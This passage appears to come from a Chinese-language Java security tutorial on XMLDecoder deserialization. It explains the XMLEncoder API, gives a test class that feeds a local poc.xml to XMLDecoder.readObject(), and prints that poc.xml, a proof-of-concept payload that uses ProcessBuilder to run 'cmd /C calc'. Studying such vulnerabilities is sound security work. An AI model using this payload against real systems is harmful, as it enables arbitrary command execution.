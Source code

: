 example:

```plain
XMLEncoder e = new XMLEncoder(
                    new BufferedOutputStream(
                        new FileOutputStream("Test.xml")));
e.writeObject(new JButton("Hello, world"));
e.close();
```

Constructor and Method:

```plain
XMLEncoder(OutputStream out)
//Creates a new XML encoder to write out JavaBeans to the stream out using an XML encoding.
//...

void writeObject(Object o)
//Write an XML representation of the specified object to the output.
```

### 2.2 XMLDecoder反序列化测试

测试类：

```plain
package XmlDecoder;

import java.beans.XMLDecoder;
import java.io.BufferedInputStream;
import java.io.FileInputStream;
import java.io.FileNotFoundException;

public class XmlDecoderTest {
    public static void main(String[] args) throws FileNotFoundException {
        XMLDecoder xmlDecoder = new XMLDecoder(new BufferedInputStream(new FileInputStream("C:\\code\\javacode\\java-sec\\src\\main\\java\\XmlDecoder\\poc.xml")));
        Object o = xmlDecoder.readObject();
        xmlDecoder.close();
    }
}
```

测试poc.xml

```plain
<java version="1.4.0" class="java.beans.XMLDecoder">
    <void class="java.lang.ProcessBuilder">
        <array class="java.lang.String" length="3">
            <void index="0">
                <string>cmd</string>
            </void>
            <void index="1">
                <string>/C</string>
            </void>
            <void index="2">
                <string>calc</string>
            </void>
        </array>
        <void method="start"/></void>
</java>
```

